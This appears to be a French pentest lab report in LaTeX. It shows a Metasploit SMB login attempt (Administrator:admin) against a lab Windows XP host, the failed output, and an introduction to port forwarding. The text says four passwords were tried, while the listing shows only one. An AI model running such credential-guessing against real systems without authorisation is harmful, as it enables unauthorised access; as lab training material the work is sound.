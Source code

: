 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
\section{Tentative d'Authentification SMB}

En l'absence d'exploits fonctionnels, nous tentons un accès légitime via bruteforce de mots de passe.

\subsection{Test de Credentials par Défaut}

\begin{lstlisting}[caption=Bruteforce SMB via Metasploit]
	[msf](Jobs:0 Agents:1) >> use auxiliary/scanner/smb/smb_login
	[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_login) >> set RHOSTS 192.168.20.50
	RHOSTS => 192.168.20.50
	
	[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_login) >> set SMBUser Administrator
	SMBUser => Administrator
	
	[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_login) >> set SMBPass admin
	SMBPass => admin
	
	[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_login) >> run
	
	[*] 192.168.20.50:445     - Starting SMB login bruteforce
	[-] 192.168.20.50:445     - Failed: '.\Administrator:admin'
	[*] 192.168.20.50:445     - Bruteforce completed, 0 credentials were successful.
	[*] Auxiliary module execution completed
\end{lstlisting}

❌ \textbf{Échec :} Aucun des credentials testés (admin, password, 123456, "") ne fonctionne.

\textbf{Conclusion :} Windows XP est correctement sécurisé (pas de mot de passe par défaut, patches appliqués).


\section{Configuration de Tunnels (Port Forwarding)}

En l'absence d'exploitation directe réussie, nous démontrons une technique avancée de post-exploitation : le \textbf{port forwarding} (redirection de ports).
\end{document}
